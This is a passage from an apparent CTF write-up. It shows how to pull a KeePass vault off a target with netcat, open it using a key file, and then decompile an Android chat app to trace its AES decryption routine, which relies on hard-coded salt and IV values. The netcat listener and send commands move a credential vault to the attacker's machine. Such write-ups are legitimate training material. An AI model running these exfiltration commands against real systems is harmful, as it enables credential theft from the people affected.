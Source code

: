 ```bash
nc -lnv "$port" > vault.kdbx
```

Then on the attacking machine, we can run the following command to send the file to our machine :

```bash
nc "$ip" "$port" < vault.kdbx
```

Then we can open the `vault.kdbx` file using KeePass or [KeeWeb](https://app.keeweb.info/). Opening the `vault.kdbx` file with KeePass required either a key file or a password. After trying multiple things, we suceeded with the `logo.jpg` file (which you can also retrieve with `netcat`) that was the required key file to open the vault.

### Getting the flag

After opening the vault with `logo.jpg`, we found the flag stored as a password of one of the entries.

## Mission 5 : Mobile

### Mission Brief and objectives

During an arrest at the home of one of the previously identified attackers, the team seized an old Google tablet used for their communications.
During its analysis, a chat application appears to be encrypted, making access and discovery of its content impossible.

- Analyze the mobile application.
- Access the encrypted information.

### Mobile Application

By installing the APK and by then running the app on an Android device (which I did because it was a CTF, but obviously this is not the first thing you should do when investigating an android application), we got some unencrypted messages alongside encrypted messages that are in the 'Messages on Previous Devices' section.
Each message has its author, its date, and encrypted messages displayed the placeholder text : `[Encrypted] This message was encrypted with old device credentials`.
We then decompiled the APK with `jadx` to get the source code of the application.

### APK Analysis

Running `jadx-gui` on the APK, we searched for the string `[Encrypted] This message was encrypted with old device credentials` to find the class that is responsible for the encryption.
We observed that it belongs to the decryptMessage method of the HomeViewModel class. This method uses the Build.MODEL, Build.BRAND and the hard-coded salt to generate the derived key, decodes the hard-coded Base64 STATIC_IV, and uses AES/CBC/PKCS5Padding initialized with the derived key and the decoded static IV to decrypt the Base64-decoded encryptedMessage, that were received from an external server (thus not hard-coded in the APK).

### Getting the device
